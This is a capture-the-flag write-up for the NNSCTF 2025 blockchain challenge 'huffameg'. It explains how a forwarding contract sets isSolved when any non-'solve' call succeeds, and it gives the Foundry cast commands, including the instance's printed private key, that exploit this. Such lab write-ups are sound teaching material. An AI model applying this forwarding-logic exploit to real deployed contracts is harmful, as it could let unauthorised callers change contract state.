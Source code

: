 # NNSCTF 2025/blockchain-huffameg

Writeup for the Challenge "huffameg" blockchain category in NNSCTF 2025 playing with THEM?!

------------------------------------------------------------------------

**Category:** Blockchain

**Author:** hoover

**Descritopn:** I don't understand, this just needs to return true! Hey Alexa, play "Tante Sofies sinte vise" until we've solved this challenge...

**Flag Format:** NNS{*}

## Challenge

We are given a Foundry-based blockchain challenge with a Huff contract.  
The setup provides an account, private key, and RPC URL. The contract exposes `isSolved()` which must return true to solve the instance.

The instance gave me:

- Account Address: `0xBB01635e6dbE2773FD854f05e5A65c863cA6ab3C`
- Private Key: `0x397195da97b0945a968e850e9f0d6976831b9311cd08d06da51822d05bc533bc`
- Challenge Contract: `0xF9AE1e1541d934B7F9245d2DfE9264Cd6374e49c`
- Implementation Contract: `0xcCD49B6981caE303D111a68e9e433d1D2d5Af4c0`
- RPC URL: `https://df9b8c7a-88aa-4dea-a950-77156d0f1bcb.chall.nnsc.tf/rpc`

------------------------------------------------------------------------

## Step 1 --- First thoughts

The description hinted that the solution should be "just return true".  
So I started by checking the contracts and how `isSolved()` is updated.  
It turned out there is a forwarding contract (`Implementation`) that calls into the Huff challenge contract.  
This felt like the usual CTF trick: something that looks too simple probably has a small catch.

------------------------------------------------------------------------

## Step 2 --- Analysis

Looking at the Huff contract, the `SOLVE()` function checks two things:

- It can only be called by the Implementation contract (so I can’t call it directly).  
- It reverts if the provided input equals `SOLVE_SIG = keccak256("solve()")`.

Meanwhile, the Implementation contract exposes a helper:  
`callFunction(string)` which builds a selector and forwards a call into the challenge contract.  
It also updates its own `isSolved` state if the call returns successfully.

That means:

- If I pass `"solve"`, the Huff contract reverts, and nothing is updated.  
- But if I pass **any other valid function name** (like `"owner"`), then the call succeeds, and the Implementation sets `isSolved = true`.  

So the trick was basically to not overthink and just pick a different function name.

------------------------------------------------------------------------

## Step 3 --- Exploit script

Commands I ran with `cast` (Foundry):

```bash
# First, check current status (it was 0)
cast call 0xcCD49B6981caE303D111a68e9e433d1D2d5Af4c0 "isSolved()"   --rpc-url https://df9b8c7a-88aa-4dea-a950-77156d0f1bcb.chall.nnsc.tf/rpc

# Then, call through the Implementation with a safe function name
cast send 0xcCD49B6981caE303D111a68e9e433d1D2d5Af4c0   "callFunction(string)" "owner"   --rpc-url https://df9b8c7a-88aa-4dea-a950-77156d0f1bcb.chall.nnsc.tf/rpc   --private-key 0x397195da97b0945a968e850e9f0d6976831b9311cd08d06da51822d05bc533bc

# Finally, verify it worked (this time it returned 1)
cast call 0xcCD49B6981caE303D111a68e9e433d1D2d5Af4c0 "isSolved()"   --rpc-url https://df9b8c7a-88aa-4dea-a950-77156d0f1bcb.chall.nnsc.tf/rpc
```

------------------------------------------------------------------------

## Step 4 --- Result

After running the `cast send` with `"owner"`, the status flipped:  

```
0x...0001
```

Meaning `isSolved()` returned true.  
On the platform, the challenge switched to **Solved**, and the flag was displayed.  

------------------------------------------------------------------------

## Flag

    NNS{<I don’t remember the exact flag text anymore, and the instance is not working anymore>}

------------------------------------------------------------------------

## Notes

The trick was understanding how the forwarding worked.  
It felt like a typical CTF smart contract puzzle: misleading you into trying `"solve"`, while any other valid selector would pass.  

In the end it was just about using the provided RPC and private key with `cast`, like all those YouTube/CTF service-style instances.  
Pretty fun one, and it didn’t require any heavy scripting — just a couple of `cast` commands.  
